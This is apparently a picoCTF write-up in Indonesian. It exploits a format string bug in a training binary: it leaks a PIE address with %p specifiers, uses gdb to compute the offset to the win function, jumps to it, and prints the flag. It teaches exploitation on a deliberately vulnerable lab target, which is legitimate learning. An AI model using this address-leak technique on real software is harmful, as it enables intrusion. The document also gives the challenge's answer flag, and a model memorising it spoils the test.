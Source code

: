 Author: Darkraicg492
Description
Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

Skills gained: Jumping address exploit, format string vurnerability

1. jalankan instance dan masukka nc ke terminal dan download juga file source code dan binarynya
2. ketika menjalankan nc pada terminal, terdapat input untuk memasukkan username dan sesudah itu input lompat address. Sepertinya disini kelemahannya adalah format string vurnerability
3. Buka vuln.c dengan ide atau note apapun
4. ya terdapat jelas kode vurnerability pada

	char buffer[64];
 	printf("Enter your name:");
  	fgets(buffer, 64, stdin);
  	printf(buffer);

5. Kenapa itu bisa menjadi kelemahan/vurnerability disini? karena printf(buffer) tidak melakukan print string secara eksplisit yang seharusnya untuk aman adalah "%s"
6. disini sudah jelas kelemahan dan tujuannya (kita harus lompat ke fungsi win) tapi.. gimana cara mencari address alamat main dan win nya?
7. untuk sekarang Buka binary tersebut dengan ghidra atau cutter atau objdump atau gdb untuk mengecek alamat addres addres ini
8. 
	gdb:

	(gdb) disas main

	Dump of assembler code for function main:
   	0x0000555555555400 <+0>:	endbr64
   	0x0000555555555404 <+4>:	push   %rbp
   	0x0000555555555405 <+5>:	mov    %rsp,%rbp
   	0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
   	0x000055555555540f <+15>:	mov    $0xb,%edi
   	0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
   	0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
   	0x0000555555555420 <+32>:	mov    $0x0,%ecx
   	0x0000555555555425 <+37>:	mov    $0x2,%edx
   	0x000055555555542a <+42>:	mov    $0x0,%esi
   	0x000055555555542f <+47>:	mov    %rax,%rdi
   	0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
   	0x0000555555555437 <+55>:	mov    $0x0,%eax
   	0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
   	0x0000555555555441 <+65>:	mov    $0x0,%eax
   	0x0000555555555446 <+70>:	pop    %rbp
   	0x0000555555555447 <+71>:	ret

10. alamat untuk main adalah 400, sekarang bagian alamat win nya
	
 	gdb:
	
 	(gdb) disas win
	Dump of assembler code for function win:
   		0x000055555555536a <+0>:	endbr64
   		0x000055555555536e <+4>:	push   %rbp
   		0x000055555555536f <+5>:	mov    %rsp,%rbp
   		0x0000555555555372 <+8>:	sub    $0x10,%rsp
   		0x0000555555555376 <+12>:	lea    0xcf6(%rip),%rdi        # 0x555555556073
   		...
   		...

11. oke, alamat untuk win adalah 36a. Alamat win dan mainnya sudah ketemu tapi.. sekarang gimana cara kita melompatinya? untuk melompati ini membutuhkan offset dari pengurangan alamat main dengan alamat win
12. dengan cara
	python3 -c "print(hex(0x0000555555555400 - 0x000055555555536a))"
	hasilnya: 0x96

13. et tapi.. kita harus memastikan dulu apakah alamat win atau main dari nc picoctf ini sama atau beda?, kita bisa memastikan dengan cara mengisi %p sebanyak lebih dari 20 kali (%p ini adalah format hexadecimal memory address)
	hasilnya:
	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
	0x5d94123332a1.(nil).0x5d94123332dd.0x7ffd34a32430.0x7c.0x7ffd34b20228.0x7ec4492206a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5d940be581c0.0x307e03c48e7fa100.0x7ffd34a32490.0x5d940be58441.(nil).
 	enter the address to jump to, ex => 0x12345: ^C

13. dan ternyata hasil dari main yang dipanggil dalam nc itu adalah 441 dan bukan 400, sekarang kita mengurangi 441 - 36a
	python3 -c "print(hex(0x441 - 0x36a))"             
	hasilnya: 0xd7

14. sesudah itu kita kurangi 441 dengan 0xd7 yang dari nc itu 
	contoh dariku:
	python3 -c "print(hex(0x5e0ab77a2441 - 0xd7))"
	hasilnya: 0x5e0ab77a236a

15. dan hasilnya seperti ini:
	nc rescued-float.picoctf.net 54031
	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
	0x5e0abd1102a1.(nil).0x5e0abd1102dd.0x7ffc19153af0.0x7c.0x7ffc1915e228.0x753d1ff9f6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5e0ab77a21c0.0xa73378bb7a919100.0x7ffc19153b50.0x5e0ab77a2441.(nil).
 	enter the address to jump to, ex => 0x12345: 
	0x5e0ab77a236a
	You won!
	picoCTF{p13_5h0u1dn'7_134k_1ef23143}
	
flag: picoCTF{p13_5h0u1dn'7_134k_1ef23143}
